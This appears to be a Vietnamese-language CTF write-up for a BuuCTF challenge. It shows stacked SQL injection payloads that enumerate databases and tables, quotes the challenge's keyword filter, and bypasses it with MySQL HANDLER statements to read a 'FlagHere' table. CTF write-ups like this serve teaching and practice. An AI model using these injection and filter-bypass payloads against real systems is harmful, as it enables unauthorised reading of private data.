 ![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/a858f841-39ba-492c-9e84-027c2702218e)

Vào challenge thì ta có 1 form để điền, đây là Stacked injections. Nguyên tắc là thêm một dấu chấm phẩy sau khi câu lệnh ban đầu được tạo để biểu thị phần cuối của câu lệnh, và một câu lệnh sql hoàn toàn mới sẽ được nhập vào sau đó, tại thời điểm này, không có giới hạn cho việc thêm, xóa, sửa và kiểm tra.

``1';show databases;#``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/0dae55fb-0597-46f8-97e9-3e5b4a682764)

``1';show tables;#``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/e174945b-ecfd-4a8d-9a19-0d8e8c92a9a1)

Ta có thể thấy bảng ``FlagHere`` khá là đáng nghi nên sẽ show các dòng trong bảng ra.

``1';show columns from FlagHere;#``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/b130a214-4592-4ab4-8a7a-7a76342cf864)

Mình đã sử dụng ``select`` để thực hiện truy vấn nhưng nó đã bị filter, do đó phải tìm 1 cách khác.

``return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);``

Trong trường hợp này mình sử dụng HANDLER:

Ví dụ, HANDLER tbl_name OPEN mở một bảng mà không trả về kết quả, thực tế là chúng ta khai báo một handle có tên tb1_name ở đây.

Nhận dòng đầu tiên của thẻ điều khiển thông qua HANDLER tbl_name READ FIRST và lần lượt nhận các dòng khác thông qua READ NEXT. Thực thi NEXT sau khi dòng cuối cùng được thực thi sẽ trả về kết quả trống.

Đóng tay cầm đang mở bằng HANDLER tbl_name CLOSE.

``1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/77287fc6-7a20-4328-a0b1-3dce309df3f1)
